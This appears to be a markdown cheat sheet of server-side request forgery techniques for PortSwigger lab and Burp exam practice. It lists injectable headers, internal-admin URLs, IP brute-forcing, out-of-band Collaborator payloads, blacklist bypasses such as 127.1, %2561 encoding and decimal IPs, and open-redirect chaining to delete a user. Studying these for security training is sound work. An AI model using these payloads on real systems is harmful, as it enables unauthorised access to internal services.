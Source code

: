 # WHERE to USE SSRF?

`Referer`, `Host`, `X-Forwarded-For`, `X-Forwarded-Host`, `X-Original-URL`, `X-Rewrite-URL`, 
`<img src="http://example.com/image.jpg">`, all inputs, parameters.

## SECRET PARAMETER:
```
GET /fetch?url=http://example.com/admin
```

## SSRF mostly with "Check stock"
In this lab they state the admin interface is at `http://192.168.0.12:8080/admin` but in the Burp exam use the `localhost:6566`.

## Basic SSRF against the local server

stockApi parameter to http://localhost/admin

## Basic SSRF against another back-end system

1) stockApi parameter to http://192.168.0.1:8080/admin.
2) Add §. Payloads , change the payload type to Numbers, and enter 1, 255. Brute ip. Receive 200.

## Blind SSRF with out-of-band detection

1) Visit a product, intercept the request in Burp Suite.
2) Referer header, right-click and select "Insert Collaborator Payload" to replace the original domain.

## SSRF with blacklist-based input filter

1) `stockApi` parameter to `http://127.0.0.1/`.
2) `http://127.1/admin`.
3) If still not working, try to encode "a" with `%2561`.

## SSRF with filter bypass via open redirection vulnerability

1) `stockApi` parameter and observe that it isn't possible to make the server issue the request directly to a different host.
2) Click "next product" and observe that the path parameter is placed into the Location header of a redirection response, resulting in an open redirection.
3) Create URL `/product/nextProduct?path=http://192.168.0.12:8080/admin` and feed it to the `stockApi` parameter.
4) Delete user `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`.

# ByPasses:

## Bypassing filters by obfuscating URLs or using IP addresses in different formats (eg decimal, hexadecimal).

```
http://2130706433/admin
```
